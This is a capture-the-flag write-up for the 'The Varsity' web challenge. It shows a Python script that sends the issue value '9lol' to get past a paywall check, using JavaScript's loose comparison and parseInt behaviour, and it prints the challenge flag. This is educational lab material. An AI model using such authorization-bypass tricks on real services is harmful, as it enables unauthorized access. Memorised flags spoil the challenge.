 # The Varsity 
![challenge](challenge.png)
### Challenge:
##### Come read our newspaper! Be sure to subscribe if you want access to the entire catalogue, including the latest issue.
##### Author: SteakEnthusiast

##### Links: [https://uoftctf-the-varsity.chals.io](https://uoftctf-the-varsity.chals.io)

### Solution:

The challenge is a portal where we can register an account to read articles, however to read specific articles, such as the one that contains the flag we need a premium subscription.
To get said premium subscription we need to input a voucher while registering however looking at the code it's pretty clear this isn't a viable strategy:

```js
const subscription = voucher === FLAG + JWT_SECRET ? "premium" : "guest";
```

Looking at the code that handles the viewing of the article we can find something interesting:

```js
if (decoded.subscription !== "premium" && issue >= 9) {
        return res
          .status(403)
          .json({ message: "Please subscribe to access this issue" });
      }

      issue = parseInt(issue);

      if (Number.isNaN(issue) || issue > articles.length - 1) {
        return res.status(400).json({ message: "Invalid issue number" });
      }

      return res.json(articles[issue]);
```

The article we want to view has index 9, so we need to find a way to make ```parseInt()``` return 9 without triggering this condition ```if (decoded.subscription !== "premium" && issue >= 9)```.

By playing around i managed to get this working:

```py
import requests

url = "https://uoftctf-the-varsity.chals.io/"

s = requests.session()

r = s.post(url+"register", json={"username":"john"})

r = s.post(url+"article", json={"issue":"9lol"})

print(r.text)
#uoftctf{w31rd_b3h4v10r_0f_parseInt()!}
```

No clue why it works but hey a flag is a flag.

Flag: ```uoftctf{w31rd_b3h4v10r_0f_parseInt()!}```